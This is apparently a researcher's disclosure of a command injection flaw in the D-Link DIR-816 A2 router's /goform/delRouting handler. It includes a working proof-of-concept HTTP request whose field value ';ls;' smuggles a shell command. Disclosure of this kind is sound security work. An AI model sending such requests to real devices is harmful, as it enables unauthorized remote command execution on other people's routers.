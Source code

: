 # Information



**Vendor of the products:**   D-Link

**Vendor's website:** [D-Link | Welcome](https://www.dlink.com.cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** DIR-816 A2

**Affected firmware version:** <=v1.10CNB05

**Firmware download address:** https://www.dlink.com.cn/techsupport/download.ashx?file=6495



# Overview

The router D-Link DIR-816 A2 1.10B05 has a serious command injection vulnerability. Attackers can inject commands through the /goform/delRouting route to achieve remote command execution and even cause serious consequences.

# Vulnerability details

The handler function `delRouting` is registered in the `sub_42A954` function.

![image-20250408142734403](5/image-20250408142734403.png)

Here the string `Var` is assigned to `v11, v12, and v13` through the `sscanf` function.

![image-20250408142904904](5/image-20250408142904904.png)

In the function `sub_428FF0`, the `sprintf` function is used to implement command splicing and finally implement command execution.

![image-20250408143050082](5/image-20250408143050082.png)

![image-20250408143219928](5/image-20250408143219928.png)

# POC

```
POST /goform/delRouting HTTP/1.1
Host: 192.168.102.145
Content-Length: 8
Cache-Control: max-age=0
Origin: http://192.168.102.145
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.102.145/d_acl.asp/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: curShow=
Connection: close

DR0=;ls;
```

![image-20250408143248872](5/image-20250408143248872.png)